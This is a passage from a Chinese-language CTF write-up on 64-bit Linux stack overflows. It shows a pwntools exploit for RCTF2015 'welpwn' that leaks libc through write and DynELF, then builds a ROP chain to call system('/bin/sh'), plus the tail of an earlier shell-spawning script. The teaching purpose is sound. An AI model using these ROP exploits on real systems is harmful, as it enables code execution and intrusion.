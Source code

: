 ```
p.send("/bin/shx00")
print "-----------get shell--------------"
payload2 = "A" * 64 + "A" * 8
payload2 += p64(poprdi) + p64(waddress)
payload2 += p64(systemAddress)
payload2 += p64(startaddress)
payload2 =  payload2.ljust(200, "B")
p.send(payload2)
p.interactive()
```



**RCTF2015-welpwn**



本题也是64位linux下的二进制程序，无cookie，也存在明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件，与其他两题的区别主要在于利用过程比较绕。<br style="text-align: left">

 整个程序逻辑是这样的，main函数中，用户可以输入1024个字节，并通过echo函数将输入复制到自身栈空间，但该栈空间很小，使得栈溢出成为可能。由于复制过程中，以“x00”作为字符串终止符，故如果我们的payload中存在这个字符，则不会复制成功；但实际情况是，因为要用到上面提到的通用gadget来为write函数传参，故肯定会在payload中包含“x00”字符。

 这个题目设置了这个障碍，也为这个障碍的绕过提供了其他条件。即由于echo函数的栈空间很小，与main函数栈中的输入字符串之间只间隔32字节，故我们可以利用这一点，只复制过去24字节数据加上一个包含连续4个pop指令的gadget地址，并借助这个gadget跳过原字符串的前32字节数据，即可进入我们正常的通用gadget调用过程，具体脚本如下。

```
from pwn import *
import binascii
p = process("./welpwn")
elf = ELF("welpwn")
readplt = elf.symbols["read"]
readgot = elf.got["read"]
writeplt = elf.symbols["write"]
writegot = elf.got["write"]
startAddress =    0x400630
popr12r13r14r15  = 0x40089c
pop6address    = 0x40089a
movcalladdress  = 0x400880
def leak(address):
  print p.recv(1024)
  payload = "A" * 24
  payload += p64(popr12r13r14r15)
  payload += p64(pop6address) + p64(0) + p64(1) + p64(writegot) + p64(8) + p64(address) + p64(1)
  payload += p64(movcalladdress)
  payload += "A" * 56
  payload += p64(startAddress)
  payload =  payload.ljust(1024, "C")
  p.send(payload)
  data = p.recv(4)
  print "%#x =&gt; %s" % (address, (data or '').encode('hex'))
  return data
dynelf = DynELF(leak, elf=ELF("./welpwn"))
systemAddress = dynelf.lookup("__libc_system", "libc")
print hex(systemAddress)
bssAddress = 0x601070
poprdi =     0x4008a3
print p.recv(1024)
payload = "A" * 24
payload += p64(popr12r13r14r15)
payload += p64(pop6address) + p64(0) + p64(1) + p64(readgot) + p64(8) + p64(bssAddress) + p64(0)
payload += p64(movcalladdress)
payload += "A" * 56
payload += p64(poprdi)
payload += p64(bssAddress)
payload += p64(systemAddress)
payload = payload.ljust(1024, "C")
```
